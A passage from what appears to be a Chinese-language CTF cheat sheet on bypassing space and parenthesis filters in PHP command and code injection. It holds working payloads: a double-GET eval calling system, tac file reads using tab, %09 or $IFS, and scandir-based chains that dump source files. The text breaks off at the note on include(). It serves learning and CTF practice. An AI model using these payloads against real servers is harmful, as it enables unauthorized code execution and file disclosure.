 ### 空格绕过

可以使用双重GET的方式绕过，当然post也可以。

```php
?c=eval($_GET[1]);&1=system("ls"); //注意这里还有个eval
```

可以使用tab绕过，因为空格可以用tab代替。

```php
?c=print_r(`tac\tf*`);
```

可以用%09代替，本质上是tab符号的url编码

```php
?c=print_r(`tac%09f*`);
```

有时可以尝试%20代替，%20是空格的url编码，但过滤空格可能无法使用

```php
?c=print_r(`tac%20f*`);
```

此外，还可以代替空格的有：

```shell
$IFS$9（使用时要加转义符号）、${IFS}、$IFS%09、<、<> 
// 这些都是在linux shell下可以达到空格的效果
// $IFS在Linux中默认是空格、分隔的字符
```

等等，看情况使用。

无空格方式直接读取文件还有以下方式：

```php
highlight_file(next(array_reverse(scandir(dirname(__FILE__)))));
// next是当前指针的下一个，也就是第二个。
// current是当前指针的这个元素。即数组的第一个元素。
// end最后一个元素
// 这里这样用是因为他是倒数第二个。
```

或

```php
show_source(next(array_reverse(scandir(pos(localeconv())))));
```

本质上是使用php本身的函数来直接读取文件。

### 括号绕过

比如可以使用include()函数。

include()函数的作用是，包含并运行指定文件。

因此可以包含一个文件流即可读取到文件。
